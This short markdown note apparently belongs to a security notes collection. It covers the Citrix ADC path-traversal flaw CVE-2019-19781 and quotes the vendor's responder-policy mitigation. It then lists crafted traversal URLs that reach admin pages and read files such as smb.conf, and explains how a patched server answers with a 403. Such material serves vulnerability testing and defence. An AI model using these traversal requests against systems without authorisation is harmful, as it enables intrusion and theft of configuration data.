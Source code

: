 Citrix Admin URL RCE (CVE-2019-19781)
=====================================


From the [Citrix report](https://support.citrix.com/article/CTX267679), it's
look like using a crafted URL you can bypass user permissions. The fix is the
following:

```
enable ns feature responder
add responder action respondwith403 respondwith "\"HTTP/1.1 403 Forbidden\r\n\r\n\""
add responder policy ctx267027 "HTTP.REQ.URL.DECODE_USING_TEXT_MODE.CONTAINS(\"/vpns/\") && (!CLIENT.SSLVPN.IS_SSLVPN || HTTP.REQ.URL.DECODE_USING_TEXT_MODE.CONTAINS(\"/../\"))" respondwith403
bind responder global ctx267027 1 END -type REQ_OVERRIDE
save config
```

A legit URL is `https://<host>/vpn/tmindex.html`, then you should access the admin
panel using the custom URL `https://<host>/vpn/..%2fvpns/apps.html`.

You can test this vulnerability by downloading some executable files:
```
/vpn/../vpns/services.html
/vpn/../vpns/cfg/smb.conf
```

You can check if a server is patched because it returns the following line as a
HTTP response:

```
HTTP/1.1 403 Forbidden
```
